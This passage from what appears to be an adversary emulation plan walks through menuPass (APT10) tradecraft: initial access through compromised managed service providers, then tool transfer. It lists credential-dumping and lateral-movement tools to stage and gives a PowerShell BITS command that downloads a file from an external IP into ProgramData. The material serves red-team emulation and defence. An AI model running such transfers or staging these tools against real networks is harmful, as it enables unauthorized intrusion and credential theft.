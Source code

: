
## Step 1 - menuPass Initial Access

### Procedures

#### 1.A - Trusted Relationship ([T1199](https://attack.mitre.org/techniques/T1199/)), Valid Accounts - Domain Accounts ([T1078.002](https://attack.mitre.org/techniques/T1078/002/))

menuPass is perhaps best known for what has been referred to as "Operation Cloud Hopper."<sup>[4](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-report-final-v4.pdf)</sup> <sup>[7](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup> This activity is believed to have spanned from 2014-2018 and initially resulted in the compromise of several of the world's largest Managed Service Providers (MSP).  Ultimately, these MSP's were not the final objective.  menuPass would leverage its previously attained access to MSP networks to pivot into customer networks that aligned with the group's collection objectives.

To do so, after gaining access to the MSP network, menuPass actors are reported to have sought out shared infrastructure.  menuPass actors are thought to have initially breached customer networks by using elevated MSP or subscriber domain credentials and remote access applications.<sup>[4](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-report-final-v4.pdf)</sup>  Emulating initial access can be as simple as providing the emulation team with a VPN/RDP connection.  menuPass is reported to have initially accessed MSP subscriber networks with elevated permissions, so too should the emulation team.<sup>[4](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-report-final-v4.pdf)</sup>

---

## Step 2 - menuPass Command and Control

### Procedures

#### 2.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105))

menuPass is reported to have used BITSAdmin to transfer tools from external infrastructure to hosts in the victim's network.  The tools were reported to have been dropped in C:\ProgramData\temp and C:\ProgramData\media.<sup>[10](https://recordedfuture.com/apt10-cyberespionage-campaign/)</sup>

Prior to transferring tools to the foothold, ensure they are compiled (if required) and renamed accordingly (optional). For this step, you should consider transferring secretsdump, atexec, psexec, nbtscan, netsess, tcping, nmap, winrar, pscp, and curl.

```cmd
C:\users\CVNX> powershell.exe
PS C:\users\CVNX> Start-BitsTransfer -Source #{ } -Destination #{ }
```

Example:

```cmd
PS C:\users\CVNX> Start-BitsTransfer -Source http://123.456.7.89/TWUEGJDITXAONVPUOWFV -Destination C:\ProgramData\temp\TWUEGJDITXAONVPUOWFV
```

---